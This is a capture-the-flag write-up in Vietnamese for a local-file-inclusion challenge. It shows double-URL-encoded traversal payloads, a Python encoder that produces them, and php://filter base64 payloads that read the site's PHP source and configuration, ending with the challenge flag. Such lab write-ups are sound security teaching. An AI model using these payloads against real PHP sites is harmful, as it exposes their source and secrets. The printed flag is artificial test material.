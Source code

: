 # Local File Inclusion - Double encoding

**30 Points**  

Include can be dangerous.

**Statement**
Find the validation password in the source files of the website.

## Analysis:

Xác định source (nơi ta có thể chèn input) là tại tham số `page` của URL. Thử payload `../` thì bị báo **"Attack detected."**. Thử chuyển qua URL-encoding thành `%2e` (.) và `%2f` (/) cũng bị detected nốt. Bộ lọc bên server là:

Filter: `.` `/` `%2f` `%2e`

Tên bài là "Double encoding" cho ta gợi ý nên bypass filter bằng cách _Double-encode_ payload. Ví dụ như hồi nãy bị filter `%2e` thì mình sẽ Url-encode dấu `%` thành `%25` (%). Vậy ta có `%252e` sẽ là dấu `.`. Thử payload:

```
%252e
```

![image](https://user-images.githubusercontent.com/48288606/163758956-25024a41-a5d4-414d-ade6-ffd390e827ab.png)

Vậy là ta đã chèn payload vào thành công, chỉ vướng lỗi logic (ta sẽ xác định sau). Mình viết một snippet python nho nhỏ để tạo double-encoding:

```python
string = "../" # This string would be double-encoded.
payload = ""
filter = ['.','/']

for c in string:
    if c in filter:
        payload += "%25" + hex(ord(c))[2:]
    else:
        payload += c

print(payload)
```

Bây giờ mình sẽ thử payload `../` và phân tích. Double-encoded payload: `%252e%252e%252f`. 

![image](https://user-images.githubusercontent.com/48288606/163759491-500a5786-9ff0-4fc7-b2af-18c18f22e5f9.png)

Bên server dùng hàm [include()](https://www.php.net/manual/en/function.include.php) để lấy file, hàm này được xem là một hàm rủi ro nếu không có thao tác xử lý dữ liệu truyền vào như parameter `page`. Ngoài ra, đường dẫn mà chúng ta yêu cầu tài nguyên `../.inc.php` bị ra khỏi vùng cho phép `/tmp`. Đồng thời ta nhận ra chuỗi của chúng ta được concat với `.inc.php`. Vậy bình thường ta để giá trị `contact` thì file được truy vấn sẽ là `contact.inc.php`

Với việc không liệt kê file trong kết quả trả về, ta không thể dò tìm file ta mong muốn. Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Nó giống như những URI scheme, bên javascript có `javascript: <execute code>`, cung cấp giao thức giống kiểu URL cho các hàm như **include(), fopen(), ...** chỉ ra tên file dưới dạng đường dẫn.

Áp dụng kỹ thuật này vào payload. Sử dụng `php://filter/resource=contact` với trang **contact**. Payload: 

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=contact
```

Output mã nguồn của file của chúng sẽ bị mã hóa base64 vì chúng ta chọn [Conversion Filters](https://www.php.net/manual/en/filters.convert.php) là `convert.base64-encode` (tương đương với đưa toàn bộ stream content qua hàm **base64_encode()**) 

![image](https://user-images.githubusercontent.com/48288606/163790457-3b104c42-b13c-4c49-9e2f-2a2361f9f33d.png)

Decode base64 bằng lệnh `base64 -d` (Linux):

```
echo "<string-to-be-decoded>" | base64 -d 
```

Chúng ta có source code PHP:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Contact</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact" class="active">Contact</a>
    </nav>
    <div id="main">
      <h2>Contact</h2>
      <p>If you got to talk to me, don't hesitate to send me an email <a href="mailto:<?= $conf['contact']['mail'] ?>">here</a>.</p>
      <p>You can also phone me on this number : <?= $conf['contact']['phone'] ?></p>
    </div>
  </body>
</html>
```

Vậy chúng ta chỉ có thể đọc file đã biết tên và đường dẫn cụ thể. Theo codebase ở trên thì ta thấy có file `conf.inc.php`. Vào đây check nội dung file, dùng `php://filter/convert.base64-encode/resource=conf`. Payload:

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=conf
```

![image](https://user-images.githubusercontent.com/48288606/163792362-b86c7732-89f5-46e8-a489-a056fe9346ed.png)

Decode tương tự bằng `base64` command:

```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta có được flag trong source code.

> NOTE: Mình thấy đa số exploiting đề xuất sử dụng `php://filter/`. Mình vẫn không rõ tại sao khi sử dụng wrapper lại in được ra source code mà nếu không dùng thì trang sẽ trả lại code đã được render cho mình

Flag: **Th1sIsTh3Fl4g!**
